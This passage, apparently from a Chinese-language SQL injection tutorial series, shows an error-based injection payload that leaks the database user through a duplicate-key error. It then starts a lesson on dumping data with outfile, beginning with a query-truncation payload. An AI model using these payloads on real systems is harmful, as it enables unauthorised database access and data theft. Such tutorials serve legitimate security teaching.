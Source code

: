 `select count(*),concat(0x3a,0x3a(select user()),0x3a,0x3a, floor (rand()*2)) a from information_schema.columns group by a;`

![84.png](./img/84.png)

使用这个查询几次后，它同样产生了一个SQL错误，并且告诉了我们username。

![86.jpg](./img/86.jpg)

通过这个技术，我们可以利用SQL的错误信息从数据库下载信息。

##第七课 通过outfile函数来下载数据库

在这节中，我们将要学习怎么下载数据库，我们以截断SQL查询开始，如下：

`?id=1′–-+`

![88.jpg](./img/88.jpg)

现在我们将要绕过前台在后台讨论一些函数。在你的终端中启动mysql，选择数据库security。
